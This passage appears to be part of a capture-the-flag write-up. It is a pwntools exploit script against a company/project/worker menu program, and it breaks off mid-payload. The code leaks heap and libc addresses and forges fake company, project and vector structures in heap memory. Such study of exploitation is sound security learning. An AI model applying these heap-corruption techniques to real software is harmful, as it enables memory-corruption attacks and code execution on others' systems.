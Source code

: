 ```python
sell_company(b"target-c")
p.sendline(b"a"*0x400)

add_company(b"grr", 1000)
add_project(b"grr", b"p0", 500)
add_project(b"grr", b"p1", 500)

for i in range(15):
    hire_worker(b"grr", b"p0", b"tom" + str(i).encode(), 0x30)

for i in range(2, 6):
    add_project(b"grr", b"p" + str(i).encode(), 500)

hire_worker(b"grr", b"p5", b"robot999", 0x30)

worker_info(b"john0")
p.recvuntil(b"Project name: ")
leak = p.recvline().strip()
print(leak)
heap_base = u64(leak[16:24]) - 0x13330
print(hex(heap_base))

fire_worker(b"robot999")
remove_project(b"grr", b"p5")

payload = flat(
    0x0, 0x0,
    heap_base + 0x163a0, 0x8, # use this as fake string for fake company
    0x0, 0x0,
    heap_base + 0x136c0, 0x0, 
)
print(hex(len(payload)))
p.sendline(payload)

# libc leak
p.sendline(b"a"*0x410)

worker_info(b"john0")
p.recvuntil(b"Company name: ")
libc_base = u64(p.recv(8)) - 0x203b20
print(hex(libc_base))

payload = flat(
    0x0, 0x0,
    0x0, 0x0, # use this as fake string for fake company
    0x0, 0x0,
    heap_base + 0x163c0, 0x0, 
)
print(hex(len(payload)))
p.sendline(payload)

payload = flat(
    0x0, 0x0,
    0x0, 0x0,

    # start of fake company
    0xdeadbeef, 0x8,
    0x0, 0x0,
    0x1337, 0x0,
    heap_base + 0x16450, heap_base + 0x16458, # fake vector
    heap_base + 0x16458, 0x0,

    # start of fake project
```